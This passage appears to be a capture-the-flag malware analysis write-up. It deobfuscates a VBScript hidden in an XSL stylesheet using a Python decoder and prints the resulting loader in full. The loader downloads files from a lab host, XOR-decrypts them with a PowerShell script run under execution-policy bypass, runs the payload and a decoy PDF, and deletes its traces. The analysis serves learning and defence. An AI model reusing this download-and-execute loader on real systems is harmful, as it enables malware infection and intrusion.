 ```xml
$Wix$sfnWxvieq$A$GviexiSfnigx,&EHSHF2Wxvieq&-$$$$sfnLXXT2Stir$&KIX&0$yvp0$Jepwi$$$$sfnLXXT2Wirh$$$$Mj$sfnLXXT2Wxexyw$A$644$Xlir$$$$$$$$sfnWxvieq2Stir$$$$$$$$sfnWxvieq2X}ti$A$5$$$$$$$$sfnWxvieq2[vmxi$sfnLXXT2ViwtsrwiFsh}$$$$$$$$sfnWxvieq2WeziXsJmpi$texl0$6$$$$$$$$sfnWxvieq2Gpswi$$$$Irh$Mj$$$$Wix$sfnWxvieq$A$RsxlmrkIrh$Wyf",i,1)) - (5) + (1)):Next:Execute TpHCM:
    ]]>
    </ms:script>
</stylesheet>
```

In this XML file, it is clear that it is trying to execute some VBScript, indicated by the `language="VBScript"`. Looking closer at the VBScript (in the CDATA section), we see it is looping over a string to perform some operations, appending it to a string, end calling `Execute` on the string. The `Execute` function will try to run the string `TpHCM` as more VBScript. Lets translate the loop to python to see what `TpHCM` is.

Translating:
- The `mid(<string>, i, 1)` function does the same as `<string>[i - 1]` in python, 
-  `Asc()` is equivalent to `ord()` in python

As a result we get:
```python
with open("obfuscatedVB.txt", "rb") as f:
    obf = f.read()
    for i in range(len(obf)):
        print(chr(obf[i] - 5 + 1), end="")

```

And the output VBScript is:
```vb
Option ExplicitDim objShell, objFSO, objHTTPDim strURL1, strURL2, strURL3, strShowfileURLDim strDownloadPath1, strDownloadPath2, strDownloadPath3, strShowfilePathDim strExecutablePath, strPowerShellScriptstrURL1 = "http://windowsupdate.htb/csrss.exe"strURL2 = "http://windowsupdate.htb/csrss.dll"strURL3 = "http://windowsupdate.htb/csrss.exe.config"strShowfileURL = "http://windowsupdate.htb/wanted.pdf"strDownloadPath1 = "C:\Users\Public\csrss.exe"strDownloadPath2 = "C:\Users\Public\csrss.dll"strDownloadPath3 = "C:\Users\Public\csrss.exe.config"strShowfilePath = "C:\Users\Public\wanted.pdf"strExecutablePath = "C:\Users\Public\csrss.exe"Set objShell = CreateObject("WScript.Shell")Set objFSO = CreateObject("Scripting.FileSystemObject")Set objHTTP = CreateObject("MSXML2.XMLHTTP")If Not objFSO.FileExists(strDownloadPath1) Then    DownloadFile strURL1, strDownloadPath1End IfIf Not objFSO.FileExists(strDownloadPath2) Then    DownloadFile strURL2, strDownloadPath2End IfIf Not objFSO.FileExists(strDownloadPath3) Then    DownloadFile strURL3, strDownloadPath3End IfIf Not objFSO.FileExists(strShowfilePath) Then    DownloadFile strShowfileURL, strShowfilePathEnd IfstrPowerShellScript = _"param (" & vbCrLf & _"    [string]$FilePath," & vbCrLf & _"    [string]$KeyPath" & vbCrLf & _")" & vbCrLf & _"$key = [System.IO.File]::ReadAllBytes($KeyPath)" & vbCrLf & _"$fileContent = [System.IO.File]::ReadAllBytes($FilePath)" & vbCrLf & _"$keyLength = $key.Length" & vbCrLf & _"for ($i = 0; $i -lt $fileContent.Length; $i++) " & vbCrLf & _"    $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]" & vbCrLf & _"¿~" & vbCrLf & _"[System.IO.File]::WriteAllBytes($FilePath, $fileContent)" & vbCrLfDim objFileOn Error Resume NextSet objFile = objFSO.CreateTextFile("C:\Users\Public\temp.ps1", True)If Err.Number <> 0 Then    WScript.Echo "Error creating PowerShell script file: " & Err.Description    WScript.QuitEnd IfobjFile.WriteLine strPowerShellScriptobjFile.CloseDim arrFilePathsarrFilePaths = Array(strDownloadPath1, strDownloadPath3, strShowfilePath)Dim iFor i = 0 To UBound(arrFilePaths)    Dim intReturnCode    intReturnCode = objShell.Run("powershell -ExecutionPolicy Bypass -File C:\Users\Public\temp.ps1 -FilePath " & Chr(34) & arrFilePaths(i) & Chr(34) & " -KeyPath " & Chr(34) & strDownloadPath2 & Chr(34), 0, True)        If intReturnCode <> 0 Then        WScript.Echo "PowerShell script execution failed for " & arrFilePaths(i) & " with exit code: " & intReturnCode    End IfNextobjShell.Run strExecutablePath, 1, TrueobjShell.Run strShowfilePath, 1, TrueobjFSO.DeleteFile "C:\Users\Public\csrss.dll"objFSO.DeleteFile "C:\Users\Public\csrss.exe"objFSO.DeleteFile "C:\Users\Public\csrss.exe.config"objFSO.DeleteFile "C:\Users\Public\temp.ps1"Sub DownloadFile(url, path)    Dim objStream    Set objStream = CreateObject("ADODB.Stream")    objHTTP.Open "GET", url, False    objHTTP.Send    If objHTTP.Status = 200 Then        objStream.Open        objStream.Type = 1        objStream.Write objHTTP.ResponseBody        objStream.SaveToFile path, 2        objStream.Close    End If    Set objStream = NothingEnd Sub
```
